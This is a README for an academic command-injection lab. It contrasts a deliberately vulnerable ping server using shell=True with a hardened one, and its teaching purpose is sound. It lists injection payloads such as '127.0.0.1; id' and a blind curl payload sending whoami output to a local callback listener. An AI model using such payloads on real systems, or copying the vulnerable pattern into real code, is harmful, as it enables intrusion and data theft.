

# OS Command Injection Demo (In-Band + Blind/OOB)

> ⚠️ **AUTHORIZED ACADEMIC USE ONLY**  
> Run on `localhost` only. Never target external or shared infrastructure.

This lab demonstrates **CWE-78: OS Command Injection** in two practical styles:

- **In-Band Injection**: command output returns in the same HTTP response.
- **Blind / Out-of-Band (OOB) Injection**: output is suppressed, and evidence appears via an external callback channel.

---

## Architecture Overview



---

## Project Structure

```text
os-command-injection-demo/
├── host/
│   ├── vulnerable_server.py      # Intentionally vulnerable app (port 8001)
│   ├── secure_server.py          # Hardened app (port 8002)
│   ├── oob_listener.py           # Callback listener for blind/OOB proof (port 9000)
│   └── templates/
│       └── index.html            # Shared UI: red=vulnerable, green=secure
├── images/
│   └── image.png                 # Diagram used in this README
├── requirements.txt
└── README.md
```

---

## Setup

```bash
cd os-command-injection-demo
python -m venv .venv
source .venv/bin/activate        # Windows: .venv\Scripts\activate
pip install -r requirements.txt
```

---

## Run the Demo Services

Use three terminals:

### 1) Vulnerable App (red mode)

```bash
python host/vulnerable_server.py
```

Open: `http://127.0.0.1:8001`

### 2) Secure App (green mode)

```bash
python host/secure_server.py
```

Open: `http://127.0.0.1:8002`

### 3) OOB Callback Listener

```bash
python host/oob_listener.py
```

Open: `http://127.0.0.1:9000`

---

## Demo Flows

## A) In-Band Command Injection

Use the **In-Band** card in the UI.

Suggested payloads for vulnerable mode:

- `127.0.0.1; id`
- `127.0.0.1 | whoami`
- `127.0.0.1 && ls /tmp`
- `127.0.0.1; echo INJECTED_SECRET`

Expected behavior:

- Vulnerable app (`8001`): injected command output appears directly in the response panel.
- Secure app (`8002`): payloads are rejected by allow-list validation.

## B) Blind / OOB Injection

Use the **Blind/OOB** card in the UI.

Example OOB payload (vulnerable mode):

```text
127.0.0.1; curl "http://127.0.0.1:9000/collect?proof=$(whoami)"
```

Expected behavior:

- Vulnerable app (`8001`): page reports command dispatched; callback appears in OOB listener log.
- Secure app (`8002`): payload is rejected; no callback is recorded.


---

## Code Walkthrough (What Each File Does)

### 1) `host/vulnerable_server.py` (intentionally unsafe)

Core issue:

```python
cmd = f"ping -c 2 {host}"
subprocess.run(cmd, shell=True, ...)
```

Why this is vulnerable:

- User input (`host`) is interpolated directly into a shell command string.
- `shell=True` allows shell metacharacters (`;`, `|`, `&&`, `$()`) to be interpreted.
- Result: attacker-controlled extra commands can run.

In-band route:

- `POST /ping/vulnerable`
- Returns command output directly to the page.

Blind/OOB route:

- `POST /ping/vulnerable/blind`
- Runs the command with output redirected to `/dev/null`.
- App only reports “dispatched”; attacker verifies via callback channel.

### 2) `host/secure_server.py` (defense-in-depth)

The secure version blocks injection using three controls:

1. Allow-list validation:
   - `is_valid_host()` accepts only valid hostname/IP shapes.
2. Argument vector execution:
   - Uses `["ping", "-c", "2", host]`, not string interpolation.
3. `shell=False`:
   - No shell parser means metacharacters are treated as data.

In-band route:

- `POST /ping/secure`
- Valid input runs safely; malicious input is rejected with HTTP 400.

Blind/OOB route:

- `POST /ping/secure/blind`
- Same safety model as above; malicious payloads are rejected before execution.

### 3) `host/oob_listener.py` (local callback proof service)

Purpose:

- Simulates an out-of-band signal receiver for blind injection demos.

Endpoints:

- `GET /collect`: records callback metadata (time, path, query, source IP).
- `GET /`: shows a simple web dashboard of recent callbacks.
- `POST /reset`: clears stored events.

### 4) `host/templates/index.html` (single mode-aware UI)

- Same template is used by both vulnerable and secure servers.
- Mode is passed from backend (`mode="vulnerable"` or `mode="secure"`).
- UI color and form actions switch automatically:
  - vulnerable mode → red + vulnerable endpoints
  - secure mode → green + secure endpoints
- Includes separate cards for:
  - In-Band demo
  - Blind/OOB demo

---

## Why the Secure Version Works

The secure server applies defense-in-depth:

1. **Allow-list validation** for host/IP input.
2. **Argument vector execution** (`["ping", "-c", "2", host]`) instead of string interpolation.
3. **`shell=False`** to avoid shell interpretation of metacharacters.

Together, these controls block both in-band and blind/OOB injection attempts.

---

## Key Takeaway

Command injection happens when untrusted input reaches a shell interpreter.  
If you eliminate shell parsing, validate strictly, and execute with least privilege, exploitation becomes significantly harder.
